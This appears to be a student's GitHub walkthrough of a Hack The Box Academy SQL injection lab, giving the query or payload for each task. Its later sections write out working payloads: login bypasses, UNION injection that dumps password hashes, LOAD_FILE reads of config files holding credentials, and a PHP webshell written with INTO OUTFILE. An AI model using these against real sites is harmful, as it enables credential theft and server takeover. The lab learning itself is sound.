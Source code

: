 <h1><ins>Intro to MySQL</ins></h1>
<h2>Task: Connect to the database using the MySQL client from the command line. Use the 'show databases;' command to list databases in the DBMS. What is the name of the first database?</h2>

![Screenshot 2024-12-03 203708](https://github.com/user-attachments/assets/5320c989-cf53-4e9b-ac38-27c8de4986fc)

<h1><ins>SQL Statements</ins></h1>
<h2>Task: What is the department number for the 'Development' department?</h2>
We use <code> use employees;</code> to select database then <code>show tables;</code> to see all tables, to find department number we use <code>select * from departments;</code>

![Screenshot 2024-12-03 204026](https://github.com/user-attachments/assets/cc2ddd1f-81d1-4feb-a1db-4efe83c38ecb)

<h1><ins>Query Results</ins></h1>
<h2>Task: What is the last name of the employee whose first name starts with "Bar" AND who was hired on 1990-01-01?</h2>
We can use command <code>select * from employees where hire_date = "1990-01-01";</code> which give us only one result.

![Screenshot 2024-12-03 205310](https://github.com/user-attachments/assets/77f8127b-d93e-457d-8334-ffeb36386d0d)

<h1><ins>SQL Operators</ins></h1>
<h2>Task: In the 'titles' table, what is the number of records WHERE the employee number is greater than 10000 OR their title does NOT contain 'engineer'?</h2>
We can use command <code>select * from titles where emp_no > 10000 OR title != 'engineer';</code>

![Screenshot 2024-12-03 210046](https://github.com/user-attachments/assets/848405f2-1be2-4bd6-9167-d040db935d7e)

<h1><ins>Subverting Query Logic</ins></h1>
<h2>Task: Try to log in as the user 'tom'. What is the flag value shown after you successfully log in?</h2>
using <code>tom' or '1'='1</code> as username input we can bypass login with any password

![Screenshot 2024-12-03 211949](https://github.com/user-attachments/assets/354fa0c5-b1e6-4e5f-a37e-2c70df03a5e9)

<h1><ins>Using Comments</ins></h1>
<h2>Task: Login as the user with the id 5 to get the flag.</h2>
Using or statment and user that is very unlikely to exist we login with id 5 by using <code>blahblah' or id = 5)-- </code> as our input

![Screenshot 2024-12-03 213430](https://github.com/user-attachments/assets/21af8ee0-c8c3-4733-ba9c-cfc250f4dbd0)

<h1><ins>Union Clause</ins></h1>
<h2>Task: Connect to the above MySQL server with the 'mysql' tool, and find the number of records returned when doing a 'Union' of all records in the 'employees' table and all records in the 'departments' table.</h2>
using <code>SELECT * FROM employees UNION SELECT dept_no, dept_name, 2, 3, 4, 5 from departments;</code> we get table of both connected tables.

![Screenshot 2024-12-03 214530](https://github.com/user-attachments/assets/fd988319-8d54-4c92-99b7-19279f5d14d3)

<h1><ins>Union Injection</ins></h1>
<h2>Task: Use a Union injection to get the result of 'user()</h2>
Using <code>cn' UNION select 1,user(),3,4-- -</code> we can find the user.

![Screenshot 2024-12-03 215514](https://github.com/user-attachments/assets/beebca7a-58d5-4125-aaa7-c329a3dd3d41)

<h1><ins>Database Enumeration</ins></h1>
<h2>Task: What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?</h2>
Folowing HTB writeup instead of using dev database we use ilfreight which helps us find new user hash using this <code>cn' UNION select 1, username, password, 4 from ilfreight.users-- -</code> SQL injection

![Screenshot 2024-12-04 165009](https://github.com/user-attachments/assets/f02431a9-ae64-47f6-9895-59157d745376)

<h1><ins>Reading Files</ins></h1>
<h2>Task: We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.</h2>
Runing <code>cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -</code> and checking source code we see that theres another config.php file which after modifying our previous injection to <code>cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -</code> and checking source code we can find flag.

![Screenshot 2024-12-04 165752](https://github.com/user-attachments/assets/3b7fce38-c0bb-49fa-b0f2-ccf60f7334dd)

<h1><ins>Writing Files</ins></h1>
<h2>Task: Find the flag by using a webshell.</h2>
Once we write file using <code>cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -</code> we can use url as our command pass.

![Screenshot 2024-12-04 170526](https://github.com/user-attachments/assets/83c006ce-3973-4cdd-8019-bf0e6eb37ec8)

<h1><ins>Skills Assessment - SQL Injection Fundamentals</ins></h1>
<h2>Task: Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.</h2>
To Gain access past login we use <code>admin' or '1'='1'-- -</code> and in search <code>' order by 6-- -</code> results are gone but if we use <code>' order by 5-- -</code> results are back which means theres 5 collumns.
After using <code>cn' UNION SELECT 1, user, 3, 4, 5 from mysql.user-- -</code> we can see that we are root user and using <code>cn' UNION SELECT 1, grantee, privilege_type, 4, 5 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -</code> we see that our priviligaes allows file creaton. Since we are in dashboard page to create shell we write <code>cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "","" into outfile '/var/www/html/dashboard/shell.php'-- -</code> after using url input as our command pass we can find flag file.

![Screenshot 2024-12-04 174751](https://github.com/user-attachments/assets/ee43aa50-77c5-452b-aa4c-1dc8d4673810)
